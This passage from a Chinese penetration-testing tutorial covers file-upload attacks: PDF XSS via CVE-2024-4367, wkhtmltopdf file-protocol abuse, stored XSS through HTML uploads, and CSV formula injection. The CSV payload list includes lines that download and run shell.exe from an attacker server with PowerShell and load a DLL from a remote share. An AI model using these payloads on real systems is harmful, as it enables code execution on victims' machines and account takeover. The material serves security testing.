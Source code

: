 可能存在PDF XSS和任意URL跳转，但是由于属于浏览器层面的漏洞，所以厂商大概率不认可。  
  
可以直接使用工具生成：https://www.xunjiepdf.com/editor  
  
也可以按照网上的操作，用迅捷PDF编辑器去操作，效果都一样  
  
因为pdf一般是后端的组件，有的开发可能配置成wkhtmltopdf /tmp/html123.htm /uploads/pdf.pdf  
 ，那就可直接利用file协议进行利用  
  
如果网站本身存在预览JS的地方，可以试试通过CVE-2024-4367  
来实现PDF XSS 获取Cookie、账户接管等。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0JJXjA8siccxXTp22BU2tZibibmictUl6fudv0GSD96Q2pHgxicwxxtxpoF0HCVdmIfwSDiaGOqvdVRX8mwsnBAEKZtQ/640?wx_fmt=png&from=appmsg "")  
### 允许上传CSV文件  
  
如果允许上传CSV文件  
，且上传的CSV文件的内容未经过处理过滤直接保存，那么可以尝试上传具有恶意命令执行payload的CSV文件，当其他用户下载该CSV文件时，可能会导致命令执行。  
  
CSV  
文件的Payload  
如下：  
```
DDE ("cmd";"/C calc";"!A0")A0
<span class="label label-primary">@SUM(1+9)*cmd</span>|' /C calc'!A0
=10+20+cmd|' /C calc'!A0
=cmd|' /C notepad'!'A1'
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1
```  
  
**检查思路：**  
1. 上传恶意的CSV文件  
  
1. 下载恶意的CSV文件  
  
1. 观察下载后的CSV文件是否对等号=  
等特殊符号做了处理，payloads会否会成功执行，如果能则说明存在问题  
  
## 0x4 组合拳实战测试  
### html、svg文件上传打XSS漏洞  
  
师傅们可以看到找到下面的这个站点的这个功能存在文件上传，我先尝试一手html文件，html文件上传相对来讲常见点，并且一般要是能够上传html文件成功，基本上都可以打一个存储型XSS漏洞了  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0JJXjA8siccxXTp22BU2tZibibmictUl6fudeJiaac5TgJz4ib5PTTmFtUeqbQia8lYib88f9GNskx1LJ6ykWzRCVvVaDA/640?wx_fmt=png&from=appmsg "")  
  
html恶意弹窗代码如下：  
  
html恶意弹窗代码如下：  
```
<!DOCTYPE html>
<htmllang="en">
<head>
<metacharset="UTF-8">
<metaname="viewport"content="width=device-width, initial-scale=1.0">
<title>Document</title>
<script>alert('618')</script>
</head>
<body>

</body>
</html>
```  
  